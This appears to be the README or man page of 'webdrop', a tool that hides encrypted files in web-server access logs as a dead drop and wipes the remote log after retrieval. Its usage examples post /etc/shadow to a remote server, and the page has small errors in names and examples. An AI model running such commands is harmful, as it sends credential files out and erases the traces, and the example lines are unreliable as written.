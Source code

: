 # Name

webrop - use
[CurlyTP](https://miscdotgeek.com/curlytp-every-web-server-is-a-dead-drop) to
send encrypted messages

# Synopsis

```
webdrop [OPTION] load URL [FILE ...]
webdrop [OPTION] unload [[USER@]HOST:]LOGFILE
```

# Description

Use [CurlyTP](https://miscdotgeek.com/curlytp-every-web-server-is-a-dead-drop)
to send encrypted messages.

`webdrop load` will encrypt each FILE individually and use `curl` to post it to
the webserver running on URL. `stdin` will be read if no FILEs are given or if
one of the FILEs is `-`.

`webdrop unload [[USER@]HOST:]LOGFILE` will download the webserver logfile at
HOST:LOGFILE using `scp` and then extract each FILE currently in the log. Once
all FILEs are extracted, the remote log is wiped. If only LOGFILE is given,
`webdrop` will access LOGFILE on `localhost`.

# Options

`-h` Print a help message and exit.

`-v` Display version information.

## load command

`-r [DELAY]` delay from 1 to DELAY seconds between sending successive message
chunks (Default is no delay).

`-w [WRAP]` maximum length of a message chunk (Default = 76).

## unload command

`-i [IDENTITY]` use IDENTITY as the private key to authenticate to HOST.

`-F [CONFIG]` specifies an alternative SSH configuration file.

`-p [PORT]` connect to HOST on PORT.

`-d [DIRECTORY]` save extracted files to DIRECTORY (Default = .).

`-v` display version info and exit.

`-h` display this help and exit.

# Examples

`webdrop 192.168.0.1 /etc/shadow`

Post `/etc/shadow` to the webserver at `192.168.0.1`.

`webdrop 192.168.0.1 /etc/shadow -`

Post `/etc/shadow` and whatever is read from `stdin` to the webserver at
`192.168.0.1`.

`webdrop unload admin@192.168.0.1:/var/log/nginx/access.log`

Extract messages from `/var/log/nginx/access.log` on `192.168.0.1` using
`root` to login.

`webdrop unload /var/log/nginx/access.log`

Extract messages from `/var/log/nginx/access.log` on `localhost`.

# Encryption

`webdrop` requires [mcrypt](http://mcrypt.sourceforcge.net).

# Webserver Configuration

When running `webdrop unload`, the user that accesses the webserver must be able
to read and write the server log. This will likely require changing permissions
on the file and/or adding the user to a certain group. The exact commands
necessary depend on both the webserver used and your specific requirements but
some examples are given in [webserver-setup.md](webserver-setup.md).

# See Also

[mcrypt(1)](http://mcrypt.sourceforge.net)

